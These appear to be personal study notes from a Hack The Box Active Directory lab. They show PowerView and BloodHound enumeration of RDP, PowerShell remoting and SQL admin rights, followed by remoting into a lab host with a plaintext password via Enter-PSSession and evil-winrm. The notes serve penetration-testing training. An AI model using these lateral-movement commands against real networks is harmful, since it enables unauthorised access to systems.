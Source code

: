 

----------------
# RDP
``
Machines that have RDP enabled by default allow only two groups to remote into it: "Local Administrators" and "Remote Desktop Users". Most techs tend to have local admin for whatever reason so it often goes unnoticed, but any other user that isn't a local admin will get a lovely prompt telling them to shove off if they try to connect.

**Remote Desktop Users**
This group is how you get around having to give the user local admin privileges or giving them explicit permissions on any given machine. As such you can work out whether that's a good thing or a bad thing for any particular user in that group.

Arguably it should be primarily for tech-like roles with delegated privileges.
# looking for users in Remote DesktopUsers group
``` 
$powerview
PS C:\Tools> Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"


ComputerName : ACADEMY-EA-MS01
GroupName    : Remote Desktop Users
MemberName   : INLANEFREIGHT\Domain Users
SID          : S-1-5-21-3842939050-3880317879-2865463114-513
IsGroup      : True
IsDomain     : UNKNOWN


```
-------------
## PowerShell remoting protocol (PSRP)
 looking for users in Remote Management Users group

 users that are in local remote management group can use PowerShell remoting
 
` localally enumerate for users that are part of the Remote management group on MS01 host `
```powershell-session
S C:\htb> Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"

ComputerName : ACADEMY-EA-MS01
GroupName    : Remote Management Users
MemberName   : INLANEFREIGHT\forend
SID          : S-1-5-21-3842939050-3880317879-2865463114-5614
IsGroup      : False
IsDomain     : UNKNOWN
```
#### bloodhound search query
```blood
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
```

Entering session
```powershell-session
PS C:\htb> $password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force
PS C:\htb> $cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)
PS C:\htb> Enter-PSSession -ComputerName ACADEMY-EA-MS01 -Credential $cred

```


```
[ACADEMY-EA-MS01]: PS C:\Users\forend\Documents> hostname
ACADEMY-EA-MS01
[ACADEMY-EA-MS01]: PS C:\Users\forend\Documents> Exit-PSSession
PS C:\htb> 
```

----------------
####   PowerShell remoting from linux

```shell-session
evil-winrm -i 10.129.201.234 -u forend

Enter Password: 

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\forend.INLANEFREIGHT\Documents> hostname
ACADEMY-EA-MS01
```

------------
# sqlAdmin

- enumerating SQLAdmin rights with bloodhound
```cypher
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
```

![](security/Screenshots/Pasted%20image%2020241210174337.png)

in this example damundsen is a sqlAdmin over MS01
Can also be found with PowerupSQL

```powershell-session
PS C:\htb> cd .\PowerUpSQL\
PS C:\htb>  Import-Module .\PowerUpSQL.ps1
PS C:\htb>  Get-SQLInstanceDomain

ComputerName     : ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL
Instance         : ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL,1433
DomainAccountSid : 1500000521000170152142291832437223174127203170152400
DomainAccount    : damundsen
DomainAccountCn  : Dana Amundsen
Service          : MSSQLSvc
Spn              : MSSQLSvc/ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL:1433
LastLogon        : 4/6/2022 11:59 AM
```

